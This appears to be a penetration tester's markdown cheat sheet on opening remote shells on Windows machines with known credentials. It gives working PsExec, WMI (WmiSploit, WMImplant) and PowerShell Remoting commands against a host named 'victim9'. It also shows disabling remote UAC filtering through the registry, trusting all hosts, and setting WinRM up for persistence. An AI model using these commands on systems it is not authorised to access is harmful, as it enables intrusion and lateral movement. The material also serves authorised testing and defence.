 # WindowsShells
Today, there are several methods that can be utilized to gain shell access on a Windows Machine once you have verified credentials.
Here I will document the various tools, methods and commands that can be used:


## PSEXEC

PSEXEC allows for remote command execution or a remote shell. PSEXEC uses ports 135 and 445 (TCP). Admin$ and IPC$ shares must also be enabled.

Open a remote shell using PSEXEC
```
psexec \\COMPUTER1 -u DOMAIN\User1 -p "PASSWORD" cmd
```

Trying to a access PSEXEC shell with the Local Admin will not work in most cases.
```
psexec \\COMPUTER1 -u .\Administrator -p "PASSWORD" cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access COMPUTER1:
Access is denied.
```

Local Administrators cannot be used to remotely access the machine using PSEXEC.
There is however a UAC flag in the registry that allows you to toggle this behavior for local accounts:

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system\LocalAccountTokenFilterPolicy.  
  
   0 - build filtered token (Remote UAC enabled)  
   1 - build elevated token (Remote UAC disabled)  
  
If you set the DWORD entry to 1, you will be able to connect to the admin share since the remote login is not filtered.  

## WMI Remoting

Windows Management Interface (WMI) is also an option that can be used for remote acccess into a machine.
WMISploit is a PowerShell based tool which will allow use to use WMI as a remote shell.
WMI Remoteing works over port TCP/135 (the standard port for RPC). 
It also uses a randomly assigned port between 1024-65535(TCP) for Windows 2003 and older, and 49152 - 65535(TCP) 

You can test if a remote machine has WMI enabled using the following PowerShell command:
```
Get-WmiObject -query "SELECT * FROM Win32_OperatingSystem" -ComputerName ComputerName 
Get-WmiObject Win32_Service -Credential DOMAIN\USER -Computer Fabrikam
```
or Locally:
```
Get-WmiObject -query "SELECT * FROM Win32_OperatingSystem"
```
If it works you will see a result like this:
```
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 17763
RegisteredUser  : jsmith
SerialNumber    : 00330-80000-00000-00000
Version         : 10.0.17763
```
Otherwise you will get an error message


```
git clone https://github.com/secabstraction/WmiSploit
Cloning into 'WmiSploit'...
remote: Enumerating objects: 61, done.
remote: Total 61 (delta 0), reused 0 (delta 0), pack-reused 61
Unpacking objects: 100% (61/61), done.

Import-Module .\Enter-WmiShell.ps1
Import-Module .\Invoke-WmiCommand.ps1
Import-Module .\Invoke-WmiShadowCopy.ps1
Import-Module .\New-WmiSession.ps1
```
Open a remote shell using WMI
```
PS C:\> Enter-WmiShell -ComputerName Server01 -UserName Administrator
```


WMIImplant is another Powerful tool that can be leveraged in this situation:
```
git clone https://github.com/FortyNorthSecurity/WMImplant
```
WMI Impant provides an interactive menu interface when you run Invoke-WMImplant:
```
Import-module WMImplant.ps1
Invoke-WMImplant
```
To run WMImplant against a remote machine you can use the following Syntax:
```
Invoke-WMImplant -ActiveUsers -ComputerName victim9 -RemoteUser .\Administrator -RemotePass badpass
Invoke-WMImplant -BasicInfo -ComputerName victim9 -RemoteUser .\Administrator -RemotePass badpass
```
Get a list of commands:
```
Invoke-WMImplant -ListCommands
```


## PowerShell Remoting
PowerShell only works if the remote machine already has PowerShell installed and if PowerShell remoting is configured to allow remote access. 
PowerShell Remoting uses the following ports:  
* TCP/5985 = HTTP  
* TCP/5986 = HTTPS  
  
As opposed to that PsExec only requires network access to the machine and administrator privileges. No agents or preinstalled server applications are required. This is especially useful when dealing with older systems such as Windows Server 2003 and Windows Vista, which don't have PowerShell installed by default.
If you need to access the operating system under the system account, PsExec is the simplest solution. A PowerShell session cannot run under a system account, unless I use PsExec for this purpose.

PowerShell Remoting must be enabled on the remote machine for this technique to work.  You can quickly check if a remote machine has powershell with the following command:  
```Test-WsMan COMPUTER```
If PowerShell Remoting is enabled you will see a message like:
```
wsmid           : http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd
ProtocolVersion : http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd
ProductVendor   : Microsoft Corporation
ProductVersion  : OS: 0.0.0 SP: 0.0 Stack: 3.0
```
Otherwise yoi will see an error message like:
```
Test-WSMan : <f:WSManFault xmlns:f="http://schemas.microsoft.com/wbem/wsman/1/wsmanfault" 
Code="2150858770" Machine="My MACHINE"><f:Message>The client cannot connect 
to the destination specified in the request. Verify that the service on the destination is 
running and is accepting requests. Consult the logs and documentation for the WS-Management 
service running on the destination, most commonly IIS or WinRM. If the destination is the WinRM 
service, run the following command on the destination to analyze and configure the WinRM service: 
"winrm quickconfig". </f:Message></f:WSManFault>
```

The following script will check a list of hosts to see if PowerShell Remoting is enabled:  
```
$dev=Import-CSV hosts.csv 
foreach ($element in $dev)
{ 
    &  echo $element.Host
    &  Test-WsMan $element.Host
}
```
The CSV file will need to have the following format with "Host" as the first line:  
_CSV File Format_  
```
Host
COMPUTERNAME1
COMPUTERNAME2
COMPUTERNAME3
```

### Starting a Remote Shell with PowerShell Remoting

Both the client and server machine must have PowerShell Remoting enabled and running
Administrator PowerShell:
```
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```
Also the client and server machines must either add the opposing added to the allowed host list.
Check the list of trusted hosts:
```
Get-Item WSMan:\localhost\Client\TrustedHosts
```
Set Trusted Hosts:
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Force -Value *
```
OR
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Force -Concatenate -Value 192.168.10.100
```

Persistence WINRM
```
Set-Service WinRM -StartMode Automatic
```
Restart WinRM to apply changes
```
Restart-Service -Force WinRM
```
Enter-PSSession -ComputerName COMPUTERNAME1 -Credential Domain01\User01 
```
Or to run as Administrator (if you have that level of access)  
```
Enter-PSSession -ComputerName COMPUTERNAME1 -Credential Domain01\User01 -RunAsAdministrator
```
If you have a Local Administator Account that does NOT use AD to authenticate, you will need to use the following command:
```
Enter-PSSession -ComputerName COMPUTERNAME1 -Credential .\User01 -RunAsAdministrator -Authentication Negotiate
```
Often, unencrypted traffic is disabled and you will need to specify SSL information
```
Enter-PSSession -ComputerName COMPUTERNAME1 -Credential .\User01 -RunAsAdministrator -Authentication Negotiate -UseSSL
```


# REFERENCES:  
*  https://blog.quickbreach.io/ps-remote-from-linux-to-windows/
*  https://4sysops.com/archives/enable-powershell-remoting-on-a-standalone-workgroup-computer/
*  https://pentestlab.blog/2017/11/20/command-and-control-wmi/
